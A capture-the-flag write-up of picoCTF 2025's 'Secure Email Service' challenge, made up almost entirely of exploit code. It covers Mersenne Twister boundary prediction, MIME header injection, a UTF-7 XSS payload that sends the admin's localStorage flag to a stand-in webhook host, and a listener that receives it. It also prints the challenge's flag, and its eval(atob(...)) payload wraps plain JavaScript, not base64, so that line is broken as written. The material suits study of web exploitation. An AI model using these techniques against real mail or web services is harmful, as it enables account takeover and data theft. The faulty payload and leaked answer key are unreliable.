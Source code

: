 # PicoCTF 2025 - Secure Email Service (ID 496)
I have finished the secure-email-service challenge (Hard level) from PicoCTF, and here is the explanation:
#
Challenge Overview:
- Category: Web Exploitation
- Difficulty: Hard
- Points: 500
- Flag: `picoCTF{always_a_step_ahead_fb2a1a8c}`

Key Mechanics:
1. S/MIME signed emails render HTML in shadow DOM
2. Admin bot views emails with flag in localStorage
3. Vulnerable to header injection and boundary prediction
#
## 1. Setup & Reconnaissance
```bash
# Get credentials
INSTANCE_URL="https://your-instance-url.ctf"
USERNAME=$(curl -s "$INSTANCE_URL" | grep -oP 'user@ses\w*')
PASSWORD=$(curl -s "$INSTANCE_URL/api/password" | jq -r '.password')

# Login and get session cookie
SESSION_COOKIE=$(curl -s -X POST "$INSTANCE_URL/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\":\"$USERNAME\",\"password\":\"$PASSWORD\"}" \
  | jq -r '.session_cookie')
```
## 2. Boundary Prediction (Mersenne Twister Crack)
```python
import re
import requests
from z3_crack import Untwister

def get_boundary(session, to, subject, body):
    """Extract boundary from sent email"""
    resp = session.post(f'{INSTANCE_URL}/api/send',
                       json={'to': to, 'subject': subject, 'body': body})
    return int(re.findall(r"===(\d+)==", resp.json()['data'])[0])

# Initialize session and cracker
session = requests.Session()
session.cookies.set('session', SESSION_COOKIE)
ut = Untwister()

# Collect 800 boundaries for cracking
for i in range(800):
    boundary = get_boundary(session, USERNAME, f"Probe {i}", "test")
    b_bin = bin(boundary)[2:].zfill(63)
    ut.submit(b_bin[31:])  # Lower 32 bits
    ut.submit(b_bin[:31] + '?')  # Upper 31 bits + padding

# Predict admin's reply boundary
ut.get_random().getrandbits(63)  # Skip our payload boundary
ADMIN_BOUNDARY = f"{ut.get_random().getrandbits(63):019d}"
```
## 3. Craft Malicious Payload
```python
import base64

# UTF-7 encoded XSS payload
XSS_PAYLOAD = """
+ADw-img src=+/x onerror=eval(atob('
    fetch(`https://your-webhook.url/?flag=${btoa(localStorage.flag)}`)
'))+AD4-
"""

# MIME encoded-word wrapper
ENCODED_PAYLOAD = base64.b64encode(
    f"""
--{ADMIN_BOUNDARY}
Content-Type: text/html; charset=utf-7

{XSS_PAYLOAD.strip()}
--{ADMIN_BOUNDARY}--
""".encode('utf-8')
).decode('ascii')

# Final subject with header injection
MALICIOUS_SUBJECT = (
    f"Hi =?ISO-8859-1?B?{ENCODED_PAYLOAD}?= \n"
    f"From : admin@ses\n"
    f"Content-Type: multipart/mixed; boundary=\"{ADMIN_BOUNDARY}\""
)
```
## 4. Send Exploit & Trigger Bot
```bash
# Send malicious email to admin
curl -X POST "$INSTANCE_URL/api/send" \
  -H "Content-Type: application/json" \
  -H "Cookie: session=$SESSION_COOKIE" \
  -d "{
    \"to\": \"admin@ses\",
    \"subject\": \"$(echo -e "$MALICIOUS_SUBJECT" | jq -Rs .)\",
    \"body\": \"Impossible W\"
  }"

# Trigger admin bot twice
curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"

sleep 5  # Wait for first processing

curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"
```
## 5. Flag Exfiltration
```javascript
// Webhook receiver (Node.js)
const http = require('http');
const server = http.createServer((req, res) => {
    const flag = Buffer.from(
        req.url.split('?flag=')[1],
        'base64'
    ).toString('utf-8');

    console.log(`[+] Flag captured: ${flag}`);
    res.end();
});

server.listen(8080, () => {
    console.log('Listening for flag on port 8080...');
});
```
# Final Output
webhook output:

[+] Flag captured: `picoCTF{always_a_step_ahead_fb2a1a8c}`
#
# Dependencies
```bash
# Install required packages for webhook testing
pip install requests z3-solver pycryptodome
npm install -g requestcatcher
```
